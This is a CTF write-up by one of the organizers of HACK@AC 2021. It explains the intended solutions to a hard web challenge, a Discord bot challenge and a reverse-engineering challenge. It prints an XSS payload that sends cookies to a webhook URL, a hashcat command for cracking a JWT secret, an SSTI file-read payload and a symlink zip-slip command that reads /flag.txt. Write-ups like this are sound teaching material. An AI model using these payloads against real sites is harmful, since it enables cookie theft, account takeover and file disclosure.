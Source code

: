 #HACK@AC 2021 Writeups by samuzora

HACK@AC is a CTF organized by the Anglo-Chinese School (Independent) Robotics Technology Society, held on 16 Oct 2021. I was part of the organizing team and made a grand total of 4 challenges (one got removed later on). It was generally quite a fun experience for all (excluding !help) and I learnt quite a bit from organizing this CTF, from dockerizing applications to debugging trivial typos. Below are writeups for some of the challenges, both made by me and by others.

[Web](#web)

[Misc](#misc)

[Unreleased](#unreleased)




## Web

### FatherBoat

Difficulty: Hard

Solves: 0 :<

Link: http://139.59.124.129:51000/

Description: You've heard of Mothership but have you heard of FatherBoat? Due to Mothership stealing all their visitors, the company couldn't make enough revenue to hire a good web dev. Before he left, he might have screwed over some stuff... Don't be too harsh on them please.

Author: Lucas

Intended Solution:
1. XSS
  Payload: `<script>fetch("https://webhook.site/unique-id/?c="+document.cookie)</script>`
  Explanation: The website tells us that one requires approval from the admin to post a story. Instead of getting approval from the admin, one can instead be the admin and thus bypass the approval process, especially since the admin seems to be sleeping/braindead. XSS is possible here as the story of the user is injected directly into the HTML DOM. The cookie is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ImZhbHNlIn0.OqbksdUdBezk8bCqbh7wJOBuHFIKGoKGkdbAiu9SiJk`
2. Hashcat
  Payload: `./hashcat.exe -a 3 -m 16500 ./.hash --increment ?l?l?l?l?l?l`
  Explanation: After obtaining the token from the admin and checking it out with jwt.io, it seems like even the admin isn't an admin, which sucks tbh. (blame it on the dev) So we have to crack the JWT secret. Luckily for us, the secret isn't very long, so it can be cracked easily using Hashcat (6 lowercase chars). The key is "father".
3. SSTI
  Payload: `{{get_file('flag.txt')}}`
  Explanation: After verifying ourselves as the admin, we can successfully submit stories. However, upon submitting a story, the website prompts us that "Server-side story sharing" has yet to be implemented. This is a direct hint towards Server Side Template Injection (SSTI), so one can test for possible SSTI with ``{{7*7}} or {{7*'7'}}``. Then at a loss of what exactly to do, one might attempt `{{config.items()}}` and stumble upon 2 important key-value pairs: `('BUILT_IN', 'get_file()'), ('FLAG', 'flag.txt')`. Afterwards it's easy, just `{{get_file('flag.txt')}}` to get the flag, `ACSI{gr4ndf4th3r_v3ssel}`.

Comments:

This challenge was made quite last minute, as we were kinda short of hard web challenges. The puppeteer was especially hard to set up. Originally I tried using the Python import of puppeteer, pyppeteer, but it turned out to be a nightmare. Afterwards I just set up an API for the JS puppeteer and the Python flask app to interact. According to inside info, HCI had already solved the XSS part, but they realized it was a multi-part challenge and just gave up :(. Hence 0 solves

## Misc

### !help

Difficulty: ~~Medium~~ **HARD**

Solves: 3 (all HCI btw)

Description: There's a bot in the CTF discord that seems unusually quiet. Maybe try DMing it? I hear he gives flags...

Author: Lucas

Intended Solution:

**Zip Slip**

The intended (obvious) solution was to exploit the fact that the bot only accepted .zip files in the !upload command. Admittedly, without sufficient experience this might have been hard to spot, but granted that the participants were allowed to google I thought that this wouldn't be too difficult. Anyway, the 2-liner command to generate the symlink and zip it is as follows: `ln -s /flag.txt link; zip -y payload.zip link`. Then !upload `payload.zip` and the bot will return the flag, `ACSI{symb0l1c_link5}`. For more info, click [here](https://snyk.io/research/zip-slip-vulnerability).

Comments:

I really underestimated the difficulty of this challenge. Originally, it was a much simpler and much easier directory traversal via the !image command which allows one to view any image/file in the bot's machine. However, *a certain person* said it was too easy and suggested a zip slip vulnerability instead. Sorry to all who attempted this challenge, I've heard your cries for *!help*, and will tone down the difficulty of similar challenges in the future. For the record, a total of 3 hints were given for this challenge, and a 4th would have been given had a certain flag hoarder from HCI not submitted his flag.

## Unreleased

### revnew (RE)

Difficulty: HARD

Solves: NA

Description: NA

Author: Elijah

Solution:

(According to Elijah, I can just ignore all the mallocs so here goes nothing.) Decompile the provided binary in IDA64. First important line is `scanf("%s", s);`, this just takes in the user input into `s`. Also we have `srand(0x10F2Cu);`, which sets the seed to 69420 in decimal. Next is `v67 = 8 * ((unsigned __int64)&v9[7] >> 3);`, which apparently makes `v67` a pointer to `s` (idk how). Afterwards we have a for loop, which loops through `s` and calls `(rand() % 21 + 69) * s[i]` into v25. Note that the output of rand() can be replicated as the seed is known. Then `s[i] = v25`. Then `  strcpy(v23, "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000");` just means that v23 is set to `01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000` (important btw). Now we have another loop, which just loops through `s` and `dest += hex(s[i])`. Skipping through 25+ lines of arbitrary mallocs wait nvm we can't skim through cos the important statements are here and there... Brief summary: 

```v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12``` Lastly, we come to a very primitive XOR gate, where v23 is xored with v15 to get our output. Pseudocode (python-like) of what just happened: ```s = input()
random.seed(69420)
v28 = 0
v69 = len(s)
v68 = v69 -1
v67 = 8 * (0 right shift 3)

for i in range(v69):
    v4 = rand()
    v25 = v4 % 21 + 69
    v25 = s[i] * v25
    v5 = v25
	s[i] = v5

v23 = "01011100011001010111010001111001010110010010011101110100000100110100000111011001011110101000001001010110010011110010101011101101010000000010000101000011100000100111010001000011010110100011101000101000"

dest = ''

for i in range(v69):
	src = hex(s[i])
    dest += src

v24 = unhex(dest)
v18 = binary(v24)
v6 = len(v18)

v6 = len(v24)
v12 = str(v18+2)[:(v6-7)]
v15 += v12

if v36 >= v35:
    v33 = v36
else:
    v33 = v35

for i in range(v33):
    if v23[i] == v15[i]:
		v9[i] = '0'
    else:
		v9[i] = '1'

print(v9)
```

The way to approach this problem is to work backwards with what we have. So assuming the start of the output we want is ACSI{, we can work backwards to find out that `dest = 1d26 2730 22...` in hex. Afterwards, an RNG script was written in C to replicate `v4 = rand()`. Then converting each byte in `dest` to decimal and dividing it by the respective `v4`s, we obtain `[r` in binary converted to ASCII. Wait did I mention that `strcpy(s, "[redacted]");` was important? `strcpy(s, "[redacted]");` is important. Now, realize that Elijah is a sadist who likes to watch people suffer with the key right under their nose and decompile horrendous C code with mallocs littered everywhere and the correct input is actually `[redacted]`, so go ahead and input that to obtain the flag, `ACSI{th3_he4p_1s_a_1ie}`. Overall this challenge was ~~A NIGHTMARE THAT I SPENT 2 WEEKS ON~~ pretty easy. I hope you understand why this challenge was unreleased.
